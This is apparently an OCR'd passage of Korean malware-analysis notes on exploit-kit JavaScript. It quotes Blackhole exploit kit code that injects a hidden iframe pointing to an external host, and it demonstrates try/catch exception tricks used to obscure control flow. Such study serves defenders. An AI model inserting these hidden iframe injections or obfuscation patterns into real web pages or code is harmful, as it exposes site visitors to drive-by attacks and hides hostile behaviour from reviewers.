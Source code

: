     <script language='JavaScript'>
    function booom1() { document.write("<iframe src='t.html' width='50' height='1'></iframe>");}
    ...

document.write() 로 iframe 을 삽입한다.

블랙홀 EK 에서 iframe 을 삽입하는 코드를 보자.

    if (document.getElementsByTagName('body')[0]){
        iframer();
    } else {
        document.write("<iframe src="http://[removed]/?go=2' width='10' height='10' style="visibility:hidden;position:absolute;left:0;top:0;'></iframe>");
    }
    function iframer() {
        var f = document.createElement('iframe');
        f.setAttribute('src', 'http://[removed]/?go=2');
        f.style.visibility = 'hidden';
        f.style.position = 'absolute';
        f.style.left = '0';
        f.style.top = '0';
        f.setAttribute('width', '10');
        f.setAttribute('height', '10');
        document.getElementsByTagName('body')[0].appendChild(f);
    }

createElement() 로 iframe 을 삽입한다.

### try { } catch(e) { }

    > Boolean().prototype.a
    TypeError: Cannot read property 'a' of undefined
        at repl:1:21
        at REPLServer.self.eval (repl.js:109:21)
        at Interface.<anonymous> (repl.js:248:12)
        at Interface.EventEmitter.emit (events.js:96:17)
        at Interface._onLine (readline.js:200:10)
        at Interface._line (readline.js:518:8)
        at Interface._ttyWrite (readline.js:736:14)
        at ReadStream.onkeypress (readline.js:97:10)
        at ReadStream.EventEmitter.emit (events.js:126:20)
        at emitKey (readline.js:1058:12)
    > try { console.log("1"); Boolean().prototype.a; console.log("2"); } catch(e) { console.log('babo'); }
    1
    babo
    >

try {} 에서 일부러 exception 을 발생시켜서, 수행 중간에 catch {} 로 control flow 를 넘긴다.
정확히 어떤 statement 가 exception 을 발생시키는지 모른다면, control flow 를 짐작할 수 없게 된다.
Control flow obfuscation 패턴.

### Base64 
